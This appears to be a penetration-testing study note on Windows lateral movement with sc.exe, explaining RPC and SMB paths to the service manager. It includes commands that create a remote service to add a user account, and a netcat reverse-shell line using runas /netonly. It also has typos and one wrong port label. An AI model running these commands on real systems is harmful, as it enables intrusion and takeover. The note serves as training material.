 #sc #runas
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
```mermaid
sequenceDiagram
	participant Client as Client
	participant EPM as End Point Mapper (PORT 135)
	Client->>EPM: Where is SVCCTL?
	EPM->>Client: SVCCTL is at port 40345
```

```mermaid
sequenceDiagram
	participant Client as Client
	participant svc as SVCCTL (PORT 40345)
	Client->>svc: rpcbind to SVCCTL
```
2. If the above process failes sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)
```mermaid
sequenceDiagram
	participant Client
	participant SMB
	Client->>SMB: Bind to known pipe \pipe\svcctl [IPC$]
```
```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

